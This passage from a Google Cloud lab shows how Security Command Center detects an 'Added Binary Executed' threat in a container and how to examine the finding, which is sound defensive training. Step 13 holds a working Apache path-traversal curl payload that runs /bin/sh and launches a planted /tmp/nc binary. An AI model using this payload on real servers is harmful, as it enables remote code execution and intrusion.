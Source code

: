 12. Run the following command to confirm there are no processes listening on any TCP ports:
    

```apache
lsof -i -sTCP:LISTEN
```

13. Run the following command to launch the `/tmp/nc` file inside our container:
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

This binary file was not included into the image when the image was built, so SCC must detect it and initiate the Finding [Added Binary Executed](https://cloud.google.com/security-command-center/docs/how-to-investigate-threats#added_binary_executed).

14. Return to the Google Cloud Console.
    
15. Open the navigation menu and select **Security &gt; Security Command Center &gt; Risk overview**.
    
16. Set the Time range selector to **Last hour**.
    
17. In the "New threats over time" panel, find the finding **Added Binary Executed**:
    

![35fd976cddca6417.png](https://cdn.qwiklabs.com/5VeBfrSD0YXPpm7P0i00s6FxQM776yJttVd9TM%2BzudQ%3D align="left")

As you can see, it has "Critical" Severity, which means that an intruder is able to access, modify, or delete data, or execute unauthorized code within your existing resources.

You can find more information about different levels on the page [severity classifications for findings](https://cloud.google.com/security-command-center/docs/finding-severity-classifications).

18. Click on this **Findings**.
    
19. Click on the URL underneath the category section:
    

![d0baa670e0d1ba6a.png](https://cdn.qwiklabs.com/WjvYlctc5bUd3wwyMGB2xSlC2T%2Bv%2BLhy1awFRpnNq3Q%3D align="left")

20. Read the description to learn more about the Finding and what has happened.
    
21. Identify the "Program binary"—note that it is the exact name of the newly added program `/tmp/nc`.
    
22. Click on the **Source Properties** tab near the top of the page.
    
23. Identify the **Pod\_Name** and **Pod\_Namespace** properties.
    

These properties will be necessary for mitigating this threat. In our environment we don't have many resources, so our investigation is very simple, but in real environments you might have thousands of pods running on the same cluster.

A more detailed process of investigating similar threats is given on the page [Added Binary Executed](https://cloud.google.com/security-command-center/docs/how-to-investigate-threats#added_binary_executed). In our case we know the primary reason for this Finding, so we will not need to do a full analysis.
